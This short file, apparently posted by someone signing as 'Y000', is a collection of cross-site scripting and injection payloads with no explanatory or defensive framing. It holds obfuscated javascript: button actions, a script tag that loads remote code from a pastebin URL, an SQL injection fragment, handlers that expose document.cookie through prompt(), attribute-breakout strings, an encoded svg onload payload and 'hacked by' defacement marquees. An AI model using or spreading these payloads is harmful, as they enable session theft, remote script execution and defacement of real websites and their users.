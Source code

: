 
##<form><button formaction=javascript&colon;alert('xss_by_Y000!')>_Y000!_


<marquee><form><button formacti\u006fn=javascript&colon;pr\u006fmpt('xss_by_Y000!')>_Y000!_</marquee>


<script type="text' or 1=1 limit 1 -- -+javascript" src="https://pastebin.com/raw/qc81pzSR"></script>

<Img src="/" =_=" title="onerror='prompt(document.cookie)'">

-1'<marquee>hacked by Y000</marquee>

<marquee direction="down" width="250" height="200" behavior="alternate" style="border:solid">
  <marquee behavior="alternate">
    Xss by Y000
  </marquee>
 <marquee behavior="alternate">
    Y000
  </marquee>
</marquee>


<marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>



"onfocus="alert('Y000')"+autofocus="

</script><!--><svg onload=[document.domain].find%26%2340;alert%26rpar;>
